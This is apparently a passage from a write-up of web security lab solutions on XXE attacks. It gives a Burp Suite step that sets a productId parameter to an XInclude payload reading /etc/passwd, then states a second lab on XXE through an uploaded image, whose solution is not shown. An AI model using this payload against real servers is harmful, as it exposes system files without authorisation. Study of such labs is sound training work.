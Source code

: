 
![xxe](../img/xxe_17.png)

```
# Burpsuite solution

1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Set the value of the `productId` parameter to:
    
    `<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`
```


## Exploiting XXE via image file upload

### Enunciation

This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

### Solution

